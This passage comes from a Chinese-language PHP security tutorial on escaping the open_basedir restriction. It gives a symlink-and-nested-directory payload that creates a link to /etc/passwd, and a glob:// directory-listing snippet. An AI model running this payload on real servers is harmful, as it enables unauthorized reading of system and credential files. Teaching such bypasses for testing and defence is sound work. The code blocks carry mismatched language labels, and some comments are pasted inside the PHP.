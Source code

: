 这样我们就打破了 open_basedir的限制 访问了其他目录的内容

```perl
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","7abc");
symlink("7abc/../../../../etc/passwd","exp");
unlink("7abc");
mkdir("7abc");
?>
```

这里payload的重点就是

```undefined
我们想要跨越多少层
 
就需要建立多少层的 目录
 
 
然后通过软连接
 
删除 生成文件夹 
 
然后就可以通过当前文件夹 链接到该去的地方
```

## 0x04利用glob://绕过

照常 首先看看什么是 glob://协议

```cobol
glob://协议 就是查找文件路径的模式
 
是从 5.3开始使用的协议
```

利用师傅的 内容进行修改

```php
<?php
$it = new DirectoryIterator("glob:///var/www/html/*.php");
foreach($it as $f) {
    printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
%s：字符串
%.1F 一位小数
%K 单位
 
}
?>
```

